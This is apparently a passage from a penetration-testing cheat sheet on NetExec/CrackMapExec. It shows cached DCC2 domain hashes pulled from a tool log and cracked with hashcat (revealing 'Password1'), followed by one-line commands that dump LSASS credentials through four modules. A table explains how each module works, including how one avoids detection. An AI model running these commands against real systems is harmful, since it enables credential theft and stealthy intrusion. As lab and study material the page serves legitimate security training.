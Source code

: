 {% tabs %}
{% tab title="1. Convert DCC2 Hashes" %}
{% code overflow="wrap" %}
```bash
cat /home/plaintext/.cme/logs/MS01_10.129.204.133_2022-11-08_093944.cached| cut -d ":" -f 2
$DCC2$10240#julio#c2139497f24725b345aa1e23352481f3
$DCC2$10240#david#a8338587a1c6ee53624372572e39b93f
$DCC2$10240#john#fbdeac2c1d121818f75796cedd0caf0a
```
{% endcode %}
{% endtab %}

{% tab title="2. Crack Hashes" %}
```bash
hashcat -m 2100 hashes.txt /usr/share/wordlists/rockyou.txt 
...
$DCC2$10240#julio#c2139497f24725b345aa1e23352481f3:Password1
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="LSASS" %}
```bash
nxc smb <ip> -u <user> -p <pass> -M lsassy
```
{% endtab %}

{% tab title="PROCDUMP" %}
```bash
nxc smb <ip> -u <user> -p <pass> -M procdump
```
{% endtab %}

{% tab title="HANDLEKATZ" %}
```bash
nxc smb <ip> -u <user> -p <pass> -M handlekatz
```
{% endtab %}

{% tab title="NANODUMP" %}
```bash
nxc smb <ip> -u <user> -p <pass> -M nanodump
```
{% endtab %}
{% endtabs %}

<table><thead><tr><th width="156" align="right">Module</th><th>Description</th></tr></thead><tbody><tr><td align="right"><code>lsassy</code></td><td>Python-based, it uses Impacket to read the LSASS dump and <code>pypykatz</code> to extract credentials.</td></tr><tr><td align="right"><code>procdump</code></td><td>Uses the Sysinternals Procdump to create the LSASS dump and <code>pypykatz</code> to extract credentials.</td></tr><tr><td align="right"><code>handlekatz</code></td><td>Uses clone handles to create an obfuscated dump.</td></tr><tr><td align="right"><code>nanodump</code></td><td>Opening a handle to LSASS can be detected, so it searches for existing handles, and if one is found, it copies it and creates a LSASS minidump.</td></tr></tbody></table>

## LDAP
